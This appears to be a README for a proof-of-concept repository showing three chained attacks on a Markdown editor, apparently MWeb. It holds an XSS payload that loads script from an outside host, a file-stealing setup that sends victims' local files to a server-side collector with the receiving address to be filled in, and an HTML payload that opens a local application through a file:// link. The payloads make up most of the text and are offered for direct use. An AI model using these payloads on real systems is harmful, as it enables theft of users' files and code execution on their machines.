 # MWebXss2FileStealing&2RCE #

## The first vulnerability ##

XSS：

![xss](https://github.com/TheKingOfDuck/MWebXss2Rce/blob/master/images/xss.png)

POC：

```
<script src="//XssStage/ip.js"></script>
```


## The Second vulnerability ##

Xss2FileStealing

![file](https://github.com/TheKingOfDuck/MWebXss2Rce/blob/master/images/file.jpg)

php：https://github.com/TheKingOfDuck/MWebXss2Rce/blob/master/GetFile.php

（Deploy on the server）

jsEXP：https://github.com/TheKingOfDuck/MWebXss2Rce/blob/master/FileStealing.js

（Deploy on the server）

just like：

```
<script src="https://github.com/TheKingOfDuck/MWebXss2Rce/blob/master/FileStealing.js"></script>
```

Pay attention to modifying the acceptance address of the file（in FileStealing.js）

## The third vulnerability ##

Xss2RCE

![file](https://github.com/TheKingOfDuck/MWebXss2Rce/blob/master/images/rce.gif)

POC:

```
<a href="file:///Applications/Calculator.app" onclick="closewin();" id="alink">

<input id="btn" onclick="test()">   </input>

<script>
    document.getElementById("alink").click();
</script>
```



